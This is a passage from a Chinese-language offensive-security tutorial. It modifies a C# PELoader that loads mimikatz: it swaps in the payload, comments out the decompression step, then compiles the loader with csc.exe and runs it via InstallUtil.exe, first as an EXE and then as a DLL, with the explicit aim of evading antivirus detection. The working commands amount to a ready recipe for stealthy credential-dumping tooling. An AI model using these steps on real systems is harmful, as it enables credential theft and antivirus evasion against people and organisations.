 细心的同学可以发现和之前使用`Powershell`生成的`mimikatz.b64`有所区别

**（2）**替换变量`KatzCompressed`的定义内容

如图

![enter image description here](http://drops.javaweb.org/uploads/images/d84ae1ac3b9785ad3b23c26b63c64642a549b36a.jpg)

**（3）**修改解密过程

定位`PELoader.cs`Line106，去掉

```
byte[] decompressed = Decompress(FromBase64);

```

在前面添加“//”即可，如图

![enter image description here](http://drops.javaweb.org/uploads/images/d0278d24192ad21ca4c7dfe8066780af1b562439.jpg)

**（4）**再次编译并利用`InstallUtil.exe`执行

```
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\csc.exe /unsafe /out:PELoader.exe PELoader.cs
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\InstallUtil.exe /logfile= /LogToConsole=false /U PELoader.exe

```

如图

![enter image description here](http://drops.javaweb.org/uploads/images/ca348a465c8f6aae2db32110af8cb3896ee67f1d.jpg)

证明修改成功，能够顺利执行我们修改的代码

**（5）**增强免杀

采用如下生成步骤：

```
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\csc.exe /unsafe /target:library /out:PELoader.dll PELoader.cs
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\InstallUtil.exe /logfile= /LogToConsole=false /U PELoader.dll

```

如图

![enter image description here](http://drops.javaweb.org/uploads/images/2f056490953bffaca4271716c16c0d36ae6199e8.jpg)

也可以成功加载`mimikatz`

测试查杀情况

如图

![enter image description here](http://drops.javaweb.org/uploads/images/2d3bc24b82a046c328bab9a2418b7b0a60673f5e.jpg)
